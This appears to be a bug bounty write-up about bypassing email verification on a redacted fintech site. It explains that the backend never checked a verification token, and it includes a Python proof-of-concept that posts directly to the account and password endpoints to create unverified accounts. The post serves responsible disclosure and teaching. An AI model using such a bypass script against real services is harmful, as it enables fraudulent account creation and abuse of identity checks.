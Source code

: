 ```yaml
---
title: Bypassing a non existing email verification flow
date: 2022-05-15 16:00:00 +05:30
modified: 2022-05-15 16:00:00 +05:30
tags: 
description: A blog post about how I bypassed a non existing email verification flow in a website.
---
```


Today I will be sharing my recent finding of an email verification bypass which allowed me to bypass “a non-existing e-mail verification flow”. I hope this will be a good read for you!

In April 2021, I was searching for a new bug bounty program, I usually do that by using google dorks, and similarly, I found one more this time. Let’s say the company is redacted.com to protect privacy.

Let’s learn more about redaced.com before learning about my finding. It is a fintech company which allows users to create accounts to access money across the globe. These accounts require verification, including verifying users' email addresses

Let’s Start “Hacking”!

<p>I started by creating an account on the target and using the website for some time to get a rough overview of the target. And after that, I selected to try bypassing the email verification process.</p>
<h2 id="this-is-how-the-targets-verification-process-worked">This is how the target’s verification process worked:</h2>
<ol>
<li>You visit <a href="http://redacted.com/signup">redacted.com/signup</a> and enter your email address</li>
<li>You receive an email with a verification URL</li>
<li>You click and open the URL and then you are redirected to the password setup page</li>
<li>You create a new password and provide other details and hit save</li>
<li>Your email gets verified and the account gets created</li>
</ol>
<p><strong>The verification URL looked like this:</strong><br>
<a href="https://www.redacted.com/app1/signup/verify?key=16641558218877162399&amp;email=example2%2540example.com">https://www.redacted.com/app1/signup/verify?key=16641558218877162399&amp;email=example2%40example.com</a></p>
<p>After looking at the URL, I thought of using some common bypasses like changing the email address in the URL or using random keys. And guess what? None of them worked!</p>
<h2 id="what’s-next-let’s-see-what’s-happening-at-the-backend.">What’s next? Let’s see what’s happening at the backend.</h2>
<p>The below two requests were made for the account creation and verification flow:</p>

- When signing-up:
<img src="https://raw.githubusercontent.com/SiddharthBharadwaj/siddharthbharadwaj.github.io/master/_posts/carbon.png" alt="">

- When setting up password after visiting the verification link:
<img src="https://raw.githubusercontent.com/SiddharthBharadwaj/siddharthbharadwaj.github.io/master/_posts/carbon1.png" alt="">

<p><strong>Observed anything odd in the second request ?</strong></p>
<p><strong>This is what I observed:</strong><br>
Even though the request was made after opening the verification link, there was no verification token in the request. This means that technically there is no email verification happening in the backend.</p>
<p><em>What if I make the second request with my email address directly after the first one without opening the verification URL?</em><br>
<strong>Yes, this worked!</strong> And I successfully created an account on <a href="http://redacted.com">redacted.com</a> without really verifying the email.</p>
<p>The next step was to report the vulnerability. So, I quickly wrote the below python exploit to make the reproduction part easy for the team and reported the vulnerability:</p>
<pre class=" language-python"><code class="prism  language-python"><span class="token keyword">import</span> requests

<span class="token keyword">class</span> <span class="token class-name">bcolors</span><span class="token punctuation">:</span>
    OKGREEN <span class="token operator">=</span> <span class="token string">'\033[92m'</span>
    ENDC <span class="token operator">=</span> <span class="token string">'\033[0m'</span>

url1 <span class="token operator">=</span> <span class="token string">"https://www.redacted.com/api/user"</span>
url2 <span class="token operator">=</span> <span class="token string">"https://www.redacted.com/api/user/account"</span>

headers <span class="token operator">=</span> <span class="token punctuation">{</span>
    <span class="token string">'Host'</span><span class="token punctuation">:</span> <span class="token string">'www.redacted.com'</span><span class="token punctuation">,</span>
    <span class="token string">'Content-type'</span><span class="token punctuation">:</span> <span class="token string">'application/json'</span><span class="token punctuation">,</span>
<span class="token punctuation">}</span>

email <span class="token operator">=</span> <span class="token builtin">raw_input</span><span class="token punctuation">(</span><span class="token string">"Enter email: "</span><span class="token punctuation">)</span>
phone <span class="token operator">=</span> <span class="token builtin">raw_input</span><span class="token punctuation">(</span><span class="token string">"Enter phone number: "</span><span class="token punctuation">)</span>

data1 <span class="token operator">=</span> <span class="token punctuation">{</span><span class="token string">"data"</span><span class="token punctuation">:</span><span class="token punctuation">{</span><span class="token string">"email"</span><span class="token punctuation">:</span>email<span class="token punctuation">,</span><span class="token string">"phoneNumber"</span><span class="token punctuation">:</span>phone<span class="token punctuation">}</span><span class="token punctuation">}</span>
data2 <span class="token operator">=</span> <span class="token punctuation">{</span><span class="token string">"password"</span><span class="token punctuation">:</span><span class="token string">"P@ssw0rd"</span><span class="token punctuation">,</span><span class="token string">"phoneNumber"</span><span class="token punctuation">:</span>phone<span class="token punctuation">,</span><span class="token string">"email"</span><span class="token punctuation">:</span>email<span class="token punctuation">}</span>

<span class="token keyword">print</span><span class="token punctuation">(</span><span class="token string">" "</span><span class="token punctuation">)</span>
<span class="token keyword">print</span><span class="token punctuation">(</span>bcolors<span class="token punctuation">.</span>OKGREEN <span class="token operator">+</span> <span class="token string">"Creating account with email: "</span> <span class="token operator">+</span> bcolors<span class="token punctuation">.</span>ENDC <span class="token operator">+</span>email<span class="token punctuation">)</span>
r1 <span class="token operator">=</span> requests<span class="token punctuation">.</span>post<span class="token punctuation">(</span>url <span class="token operator">=</span> url1<span class="token punctuation">,</span> headers <span class="token operator">=</span> headers<span class="token punctuation">,</span> json <span class="token operator">=</span> data1<span class="token punctuation">)</span>
<span class="token keyword">print</span><span class="token punctuation">(</span>bcolors<span class="token punctuation">.</span>OKGREEN <span class="token operator">+</span> <span class="token string">"Account Created!"</span> <span class="token operator">+</span> bcolors<span class="token punctuation">.</span>ENDC<span class="token punctuation">)</span>
<span class="token keyword">print</span><span class="token punctuation">(</span>bcolors<span class="token punctuation">.</span>OKGREEN <span class="token operator">+</span> <span class="token string">"Bypassing email verificaion &amp; setting password"</span> <span class="token operator">+</span> bcolors<span class="token punctuation">.</span>ENDC<span class="token punctuation">)</span>
r2 <span class="token operator">=</span> requests<span class="token punctuation">.</span>post<span class="token punctuation">(</span>url <span class="token operator">=</span> url2<span class="token punctuation">,</span> headers <span class="token operator">=</span> headers<span class="token punctuation">,</span> json <span class="token operator">=</span> data2<span class="token punctuation">)</span>
<span class="token keyword">print</span><span class="token punctuation">(</span>bcolors<span class="token punctuation">.</span>OKGREEN <span class="token operator">+</span> <span class="token string">"Completed!"</span> <span class="token operator">+</span> bcolors<span class="token punctuation">.</span>ENDC<span class="token punctuation">)</span>
<span class="token keyword">print</span><span class="token punctuation">(</span><span class="token string">" "</span><span class="token punctuation">)</span>
<span class="token keyword">print</span><span class="token punctuation">(</span><span class="token string">"Account details:"</span><span class="token punctuation">)</span>
<span class="token keyword">print</span><span class="token punctuation">(</span>bcolors<span class="token punctuation">.</span>OKGREEN <span class="token operator">+</span> <span class="token string">"Email: "</span> <span class="token operator">+</span> bcolors<span class="token punctuation">.</span>ENDC <span class="token operator">+</span>email<span class="token operator">+</span> bcolors<span class="token punctuation">.</span>OKGREEN <span class="token operator">+</span> <span class="token string">" Password: "</span><span class="token operator">+</span> bcolors<span class="token punctuation">.</span>ENDC <span class="token operator">+</span><span class="token string">"P@ssw0rd"</span><span class="token punctuation">)</span>
<span class="token keyword">print</span><span class="token punctuation">(</span><span class="token string">" "</span><span class="token punctuation">)</span>

</code></pre>

After reporting, I got a response the next day confirming the existence of the vulnerability. And it was fixed on the second day and Bounty was awarded a day after that.

##### Takeaways
- Always use the application as a normal user before testing it for security misconfigurations
- Never skip basic bypasses/techniques as they might do the work
- Observe every request carefully
